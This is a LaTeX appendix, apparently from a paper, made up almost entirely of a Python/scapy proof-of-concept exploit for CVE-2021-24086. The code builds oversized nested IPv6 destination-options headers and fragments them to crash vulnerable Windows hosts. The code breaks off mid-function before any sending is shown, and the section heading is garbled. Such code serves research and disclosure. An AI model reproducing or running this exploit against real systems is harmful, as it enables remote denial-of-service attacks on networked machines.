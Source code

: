 \documentclass{report}
\begin{document}
\section*{ for CVE-2021-24086}
\label{appendix:poc}
\begin{verbatim}
from scapy.all import *
import argparse

def custom_fragment6(target, frag_id, bytes, nh, frag_size = 1008):
    assert (frag_size % 8) == 0
    rest = bytes
    offset = 0
    frags = []

    while len(rest) > 0:
        chunk = rest[: frag_size]
        rest = rest[len(chunk): ]
        last_pkt = len(rest) == 0

        # 0 -> No more / 1 -> More
        m = 0 if last_pkt else 1
        assert offset < 8191
        pkt = Ether() \
            / IPv6(dst = target) \
            / IPv6ExtHdrFragment(m = m, nh = nh, id = frag_id, offset = offset) \
            / chunk

        offset += (len(chunk) // 8)
        frags.append(pkt)
    return frags

def exploit(args):
    first_fragment_id = random.randint(0, 0xffffffff)
    second_fragment_id = random.randint(0, 0xffffffff)

    packet1 = IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])

    for i in range(35):
        packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])
    
    packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xa0)),
        ])
    packet1 /= IPv6ExtHdrFragment(
        id = second_fragment_id, m = 1,
        nh = 17, offset = 0
    ) \
    / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)

    packet1 = bytes(packet1)

    frags = custom_fragment6(args.target, first_fragment_id, packet1, 60)


\end{verbatim}
\end{document}
